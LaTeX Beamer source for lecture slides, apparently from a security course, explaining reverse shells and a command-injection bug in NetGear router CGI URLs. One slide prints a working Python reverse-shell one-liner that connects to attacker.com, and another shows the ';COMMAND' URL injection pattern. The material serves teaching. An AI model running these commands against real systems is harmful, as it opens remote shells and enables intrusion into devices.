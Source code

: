 \begin{frame}[fragile,label=justOneCommand2]{just one line of commands?}
\begin{itemize}
    \item common strategy: ``reverse shell''
    \item command to connect to attacker, read commands
        \begin{itemize}
        \item like SSH but with connection in wrong direction
        \end{itemize}
\end{itemize}
\begin{verbatim}
# a little python program that connects to attacker.com,
# then passes everything to a shell (a "reverse shell")
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker.com",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'
\end{verbatim}
\end{frame}

\section{More examples}

\subsection{Netgear exploit}


\begin{frame}[fragile,label=netGearExploit1]{a bug in some NetGear routers}
\begin{itemize}
    \item suppose router's interface is at \texttt{http://10.0.0.1/}
    \item \texttt{http://10.0.0.1/cgi-bin/}: runs \texttt{scripts/}
        \begin{itemize}
            \item (or some similar filename)
            \item example FOO: \texttt{apply.cgi} --- program to change router settings
        \end{itemize}
    \item<2-> request \texttt{http://10.0.0.1/cgi-bin/;COMMAND}
    \item<2-> \texttt{scripts/}
    \vspace{.5cm}
    \item<3-> problem: URL can't contain spaces
\end{itemize}
\end{frame}

